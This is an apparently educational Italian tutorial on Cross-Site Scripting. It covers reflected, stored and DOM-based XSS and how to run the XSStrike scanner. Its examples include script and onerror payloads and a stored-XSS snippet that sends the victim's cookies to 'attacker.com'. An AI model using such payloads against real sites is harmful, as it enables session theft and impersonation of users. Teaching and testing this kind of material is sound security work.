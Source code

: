 # Cross-Site Scripting (XSS)

## Indice

- [Descrizione](#descrizione)
- [Teoria](#teoria)
- [Reflected XSS (Non-Persistent XSS)](#reflected-xss)
- [Stored XSS (Persistent XSS)](#stored-xss)
- [Dom-Based XSS](#dom-xss)
- [XSS Strike (Check XSS automaticamente)](#xss-strike)
    - [Requisiti](#requisiti)
    - [Installazione](#installazione)
    - [Scansione con parametri GET](#scansione-get)
    - [Scansione con parametri POST](#scansione-post)



## Descrizione

Il Cross-Site Scripting (XSS) è una tipologia di vulnerabilità presente nelle applicazioni web che permette ad un attaccante di iniettare codice malevolo (di solito JavaScript) all'interno di pagine web visualizzate da altri utenti. Questo attacco sfrutta la fiducia che un utente ripone in un sito web, inducendolo ad eseguire del codice proveniente da una fonte apparentemente legittima.

## Teoria

Per comprendere a fondo le vulnerabilità XSS, è importante analizzare il meccanismo sottostante:

* L'iniezione: L'attaccante invia dati contenenti codice malevolo verso l'applicazione.

* La mancata sanitizzazione: L'applicazione non filtra adeguatamente i dati immessi, accettando input non sicuro.

* L'esecuzione: Il browser dell'utente esegue il codice malevolo incorporato nella risposta HTML, sfruttando la fiducia dell'utente nella fonte del contenuto.

Per proteggersi, le applicazioni devono validare, sanitizzare e codificare correttamente i dati in ingresso e in uscita. Tecniche come la Content Security Policy (CSP) possono aiutare a limitare l'impatto anche nel caso in cui si verifichi un'iniezione.

## Reflected XSS

Il Reflected XSS si verifica quando i dati iniettati dall'attaccante vengono immediatamente "riflessi" da una risposta del server, che li inserisce in pagine web senza la dovuta sanitizzazione. Questo tipo di attacco è solitamente realizzato tramite link appositamente creati, che, se cliccati dalla vittima, provocano l'esecuzione del codice malevolo.

#### Esempio pratico di Reflected XSS

* Immagina un sito web di ricerca con una URL del tipo:  
  
  `https://www.esempio.com/ricerca?query=test`
* Se il parametro "query" non viene correttamente sanitizzato, l'attaccante potrebbe inviare un URL come il seguente:  
  
  `https://www.esempio.com/ricerca?query=<script>alert('XSS')</script>`  
    
* Quando la vittima clicca sul link, il browser riceve la risposta contenente:  
  
  ```html
  <html>
  <head>
    <title>Risultati per
        <script>
            alert('XSS')
        </script>
    </title>
  </head>
  <body>
    <h1>Risultati per
        <script>
            alert('XSS')
        </script>
    </h1>
    <!-- Altri contenuti -->
  </body>
    </html>  
* Il codice <script>alert('XSS')</script> viene eseguito immediatamente sul browser della vittima, mostrando un pop-up con il messaggio "XSS", a dimostrazione del controllo che l'attaccante può ottenere sul contenuto visualizzato.

## Stored XSS

Lo Stored XSS si verifica quando i dati malevoli vengono salvati in modo permanente sul server, ad esempio all'interno di un database, e vengono successivamente presentati a numerosi utenti. Questo tipo di attacco è particolarmente pericoloso poiché l'iniezione non è limitata ad un singolo utente, ma si propaga alla base utenti.

#### Esempio pratico di Stored XSS

* Un utente vulnerabile invia un commento malevolo su un blog:  

  ```html
  <script>
    document.location='https://attacker.com/steal?cookie=' + document.cookie
  </script>
* Il commento viene salvato nel database del blog.
* Ogni volta che un altro utente visita l'articolo contenente il commento, il browser esegue il codice script iniettatogli.
* Ad esempio, la pagina potrebbe contenere:  

    ```html
    <div class="comment">
        <p>Ottimo articolo!</p>
    </div>

    <div class="comment">
        <p>
            <script>
                document.location='https://attacker.com/steal?cookie=' + document.cookie
            </script>
        </p>
    </div>
* Il codice viene eseguito automaticamente e invia i cookie della vittima al server dell’attaccante, permettendo il furto di dati sensibili e l’eventuale impersonificazione dell’utente.

## Dom XSS

Il DOM-Based XSS è una variante in cui l'iniezione e l'esecuzione del codice malevolo avvengono interamente lato client, ossia attraverso la manipolazione del Document Object Model (DOM) nel browser. In questo caso, il server non è direttamente coinvolto nella vulnerabilità, ma il codice JavaScript lato client elabora input non validati provenienti dalla URL o da altre sorgenti (come fragment identifier).

#### Esempio pratico di Dom-Based XSS

* Considera una pagina che legge il fragment identifier (la parte successiva al simbolo “#” nell'URL) e lo visualizza sul sito:  

    ```html
    <!DOCTYPE html>
    <html>
    <head>
    <title>Demo DOM XSS</title>
    </head>
    <body>
    <div id="content"></div>
    <script>
        // Il codice sottostante recupera il fragment identifier dall'URL
        var hash = window.location.hash.substring(1);
        // E lo inserisce nel DOM senza sanitizzazione
        document.getElementById('content').innerHTML = hash;
    </script>
    </body>
    </html>
* Se l'attaccante genera un URL come:  

    `https://www.esempio.com/demo#<img src=x onerror=alert('Dom XSS')>`
* All'apertura della pagina, il browser eseguirà il codice contenuto nel fragment:
    ```html
    <div id="content">
        <img src=x onerror=alert('Dom XSS')>
    </div>
* Questo provoca un errore nel caricamento dell’immagine, attivando l’evento onerror e l’esecuzione del comando JavaScript che mostra il pop-up “Dom XSS” o esegue altre azioni malevole.

## XSS Strike
XSS Strike è uno strumento creato per il penetration testing, finalizzato a sfruttare e analizzare vulnerabilità di tipo Cross-Site Scripting (XSS) in applicazioni web.

#### Requisiti  
- Python 3.4+
- git

#### Installazione
Per installare XSS Strike è sufficiente digitare questi comandi nel terminale
```bash
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
pip install -r requirements.txt --break-system-packages
```

### Scansione GET
Supponiamo che il sito https://targetsite.com abbia una pagina di ricerca vulnerabile:
- https://targetsite.com/search?query=xxx  

Il comando per testare il parametro “query” sarà:
- `python xssstrike.py --url "https://targetsite.com/search?query=xxx" --verbose`  

L'output mostrerà quali payload sono stati iniettati e se sono stati rilevati script eseguibili dal browser.

### Scansione POST
Considera un form di invio commenti su https://targetsite.com/comment che accetta il parametro “comment”. Per testare:
- `python xssstrike.py --url "https://targetsite.com/comment" --method POST --data "comment=xxx" --verbose`  

Il tool invierà richieste sostituendo “xxx” con payload XSS e verificherà eventuali esecuzioni.
